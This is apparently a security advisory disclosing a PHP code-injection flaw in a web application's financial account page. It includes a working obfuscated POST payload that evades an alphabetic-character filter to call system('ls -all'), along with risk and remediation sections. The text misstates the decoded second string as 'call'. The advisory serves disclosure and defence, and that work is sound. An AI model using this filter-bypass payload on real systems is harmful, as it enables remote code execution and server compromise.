

# Description

In this case, the web application at `/index.php?page=financial/account.php` is vulnerable to a **code injection** attack via a POST request. The attack exploits a weak input validation mechanism that incorrectly filters out only alphabetical characters (`a-zA-Z`), but does not properly sanitize or restrict other characters. This flaw allows an attacker to inject arbitrary PHP code via input fields, leading to potential Remote Code Execution (RCE).

The vulnerability exists in the way the `amount_simulator` parameter is handled. The application does not correctly validate input when performing an operation on the `amount_simulator` field. Specifically, it allows the injection of complex PHP code that manipulates system variables.

---

# Exploitation

By sending the following payload in a POST request:

```
association_id=18&amount_simulator=((9**999..+1^21..-1^87..+9)(115).(9**999..+1^21..-1^87..+9)(121).(9**999..+1^21..-1^87..+9)(115).(9**999..+1^21..-1^87..+9)(116).(9**999..+1^21..-1^87..+9)(101).(9**999..+1^21..-1^87..+9)(109))((9**999..+1^21..-1^87..+9)(108).(9**999..+1^21..-1^87..+9)(115).(9**999..+1^21..-1^87..+9)(32).(9**999..+1^21..-1^87..+9)(45).(9**999..+1^21..-1^87..+9)(97).(9**999..+1^21..-1^87..+9)(108).(9**999..+1^21..-1^87..+9)(108))
&csrf_token=979a64e81b85d38a9585b071b0abf797c10bf211551b68a6e2561cfe55f0ca14&calculate=
```

The attacker exploits the following:

**Obfuscation with Non-Alphanumeric Characters**:

- `9**999..+1^21..-1^87..+9` represents a computed value that results in a specific ASCII value when evaluated. This technique ensures that alphabetic characters (such as `s`, `y`, `s`, etc.) do not appear in the payload, thus bypassing input restrictions that block `a-zA-Z`.
- The payload effectively generates the characters for the string "system" and then "call" when decoded.

---

# PoC

This Proof of Concept (PoC) demonstrates the ability to exploit the code injection vulnerability

Using this repo: https://github.com/cli-ish/non-alphanumeric-webshell we can craft payload

We can inject command:



---

# Risk

The risk posed by this vulnerability is significant:

- **Remote Code Execution (RCE)**: The ability to inject and execute arbitrary PHP code can lead to a complete compromise of the server. The attacker could potentially gain control over the server, steal sensitive data, alter server configurations, and perform other malicious activities.
- **Data Breach**: If the attacker is able to escalate their privileges, they could access sensitive financial or personal data within the system.
- **Reputation Damage**: Exploiting this vulnerability could severely damage the reputation of the affected organization, as the attacker could alter financial data or deface the application.
- **Service Disruption**: The attacker could use the RCE vulnerability to launch denial-of-service (DoS) attacks on the server or tamper with its operations.

---

# Remediation

To prevent this type of attack, several steps should be taken:

1. **Strict Input Validation**: Ensure that all user inputs are properly validated. Input validation should allow only expected characters and reject any unusual characters or patterns that may indicate an attempt to inject code.
2. **Escaping and Sanitizing Output**: Escape user-supplied data before using it in contexts such as HTML, JavaScript, or PHP. This prevents code injection attacks.
3. **Limit PHP Code Execution**: Avoid using functions like `eval()` and `exec()` to process user input. Instead, use predefined operations that do not involve the execution of arbitrary code.

---

# References

- https://owasp.org/www-community/attacks/Code_Injection
- [non-alphanumeric-webshell](https://github.com/cli-ish/non-alphanumeric-webshell)

---

# Author

4fromages
